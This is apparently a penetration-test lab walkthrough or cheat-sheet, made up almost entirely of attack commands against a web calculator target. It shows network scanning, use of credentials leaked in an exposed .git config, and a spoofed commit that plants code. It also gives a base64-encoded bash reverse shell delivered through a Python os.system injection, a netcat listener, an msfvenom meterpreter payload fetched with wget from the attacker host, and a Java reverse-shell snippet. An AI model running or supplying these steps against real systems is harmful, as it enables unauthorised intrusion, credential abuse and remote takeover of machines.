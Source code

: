 # Black-box Penetration Test 2

Attacker IP:  192.148.53.2
Target Domain : http://online-calc.com/
Target IP     : 192.148.53.3

## Ping Sweep
nmap -sn 192.148.53.0/24 | grep "192*" | cut -d ' ' -f6 | tr -d '(' | tr ')' ' '

## Nmap Scan
nmap -sS -sV -A 192.148.53.3

## Dirb Scan
dirb http://online-calc.com:8000/.git/

http://online-calc.com:8000/.git/HEAD                                                                         
http://online-calc.com:8000/console
http://online-calc.com:8000/.git/config
  |
    name = Jeremy McCarthy <jeremy@dummycorp.com>
      email = jeremy@dummycorp.com
      password = diamonds
      username = jeremy

      http://online-calc.com/projects/online-calc
-------------------------------------------------------------------------------
git clone http://online-calc.com/projects/online-calc
cd online-calc
git logs
modify API.py
git add .
git commit -m "bug fix" --author "Jeremy McCarthy <jeremy@dummycorp.com>"
git push

## Reverse Shell
echo 'bash -c "bash -i >& /dev/tcp/192.148.53.2/7777 0>&1"' | base64
  o/p: YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTQ4LjUzLjIvNzc3NyAwPiYxIgo=

## Payload to get netcat connection
__import__("os").system("echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTQ4LjUzLjIvNzc3NyAwPiYxIgo= | base64 -d | bash")

## Run netcat listener in terminal
nc -lvp 7777

find / -iname *flag*
cat flag.txt

## Prepare payload for meterpreter connection
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.148.53.2 LPORT=8888 -f elf > payload.bin

## Run python webserver to transfer payload on compromised machine
python -m SimpleHTTPServer

## Download payload on compromised machine
wget 192.148.53.2:8000/payload.bin
chmod +x payload.bin

## Meanwhile keep meterpreter multi handler listener ready
use multi/handler
set LHOST 192.148.53.2
set LPORT 8888
exploit

## Run payload on compromised machine
./payload.bin

# In meterpreter session get the second network ip to pivot
ifconfig

# Second network  : 192.78.79.2



String host=192.149.90.2;
int port=8044;
String cmd=”cmd.exe”;
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
